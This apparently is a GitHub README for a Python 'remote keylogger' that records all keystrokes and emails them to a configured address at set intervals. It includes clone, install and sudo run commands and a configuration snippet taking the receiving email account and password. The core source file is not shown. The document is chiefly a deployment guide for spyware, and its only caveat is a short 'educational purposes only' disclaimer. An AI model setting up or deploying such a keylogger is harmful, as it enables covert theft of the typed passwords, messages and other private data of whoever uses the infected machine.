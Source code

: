 # Remote Keylogger in Python

This project is a **remote keylogger** implemented in Python, designed to capture keystrokes and periodically send them via email. The project consists of two scripts: `keylogger.py`, which contains the core functionality as a class, and `zkeylogger.py`, the script that initializes and executes the keylogger.

## Features
- Captures all keyboard inputs, including printable and special keys.
- Sends logs to a specified email address at regular intervals.
- Utilizes `pynput` for keylogging and `smtplib` for secure email transmission.
- Easily customizable reporting interval and email credentials.

## Prerequisites
Before running the scripts, ensure the following:
- Python 3.x is installed on your system.
- Required Python libraries:
  - `pynput`
  - `smtplib` (included by default in Python)
- Access to an email account with SMTP enabled (e.g., Zoho Mail, as Gmail no longer supports SMTP for standard apps).
- *NOTE:* The `keylogger.py` code uses zoho SMTP and one is encouraged to tailor it to their needs.

## Installation
1. Clone this repository:
   ```bash
   git clone https://github.com/mghtyspm/remote-keylogger.git
   cd remote-keylogger
   ```
2. Install dependencies:
   ```bash
   pip install pynput
   ```

## Usage
1. Open `keylogger.py` and set the following:
   - `email`: Your email address (to receive logs).
   - `password`: The email account's password.
   - `time_interval`: Time in seconds between email reports.

2. Run the keylogger using:
   ```bash
   sudo python zkeylogger.py
   ```

3. The keylogger will start capturing keystrokes and send reports to the configured email address.

## Example Configuration
```python
# zkeylogger.py
import keylogger
my_keylogger = keylogger.Keylogger(120, "your-email@zoho.com", "your-email-password")
my_keylogger.start()
```

## Important Notes
- **Educational Purposes Only**: This tool is strictly for learning and research in a controlled environment. Unauthorized use is illegal and unethical.
- Ensure you have proper permissions to use this on any device.
- Gmail no longer supports SMTP for standard apps as of January 2025. Use alternatives like Zoho Mail for SMTP-based configurations.

## Troubleshooting
- If you encounter an `SMTPAuthenticationError`, ensure:
  - Email and password are correct.
  - SMTP is enabled for the email account.
  - App-specific passwords are used if required (e.g., for Zoho Mail).

## Disclaimer
The creators of this project are not responsible for any misuse. Always adhere to ethical practices and obtain proper consent before using such tools.

---

Happy coding!
